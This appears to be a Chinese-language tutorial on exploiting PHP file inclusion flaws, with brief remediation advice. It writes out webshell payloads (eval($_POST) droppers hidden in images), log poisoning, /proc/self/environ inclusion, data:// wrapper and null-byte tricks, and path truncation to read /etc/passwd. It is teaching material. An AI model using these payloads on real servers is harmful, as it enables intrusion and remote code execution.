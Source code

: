 ##### 本地包含配合文件上传
如果目标服务器关闭了allow_url_fopen，则可以尝试使用本地包含+文件上传
上传一个图片木马a.jpg，内容为：
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>
```
访问URL：*http://www.xxx.com/index.php?page=./a.jpg*在本地生成shell.php。


##### 本地包含配合apache日志拿shell
　　apache日志分为access.log与error.log，当我们请求一个url地址时，便会记录在access.log中，但如果访问一个不存在的页面，便会将这个页面写入access.log中。如访问URL:*http://www.xxx.com/<?php eval([$_POST]);?>*则会将一句话写入到access.log中，但是一般来说，写入到access.log文件中的一句话是被编码的，所以需要抓包绕过，而且利用此漏洞需要知道access.log的地址，不然便没有。

##### 利用/proc/self/environ进行包含
如：http://www.test.com/view.php?page=../../../../proc/self/environ
这是web进程运行时的环境变量，其中有些参数是可以被用户控制的，最常见做法就是在User-Agent中插入一句话。

##### 利用php协议进行包含
* data:　　php5.2以后版本
* php://input　　需要开启allow_url_include

poc:
```bash
http://www.test.com/index.php?file=data:text/plain,<?php phpinfo();?>%00
```

##### 截断包含
有些开发者为了防止本地包含漏洞，会编写一下代码:
```bash
<?php
    Include  $_GET['page'].".php"
?>
```
（一）00截断包含
新建1.jpg:
```bash
<?fputs(fopen("shell.php","w"),"<?php eval($_POST[tzc]);?>")?>
```
　　这样的话比如上传一个1.jpg图片码，则访问*http://www.xxx.com/1.jpg*时，访问的是1.jgp.php，以为没有这个文件所以报错。这是，可以尝试访问*http://www.xxx.com/1.jpg%00*

（二）使用长目录截断
```bash
././././././././././././././etc/passwd
或者
////////////////////////////etc/passwd
或者
../a/etc/passwd/../a/etc/passwd/../a/etc/passwd
```
在windows下目录最大长度为256字节，linux下为4096字节，其后面超出部分被丢弃。

#### 文件包含漏洞修复
开启open_basedir函数，将其设置为指定目录，则只有该目录的文件允许被访问。
关闭allow_url_include函数，防止远程文件包含。
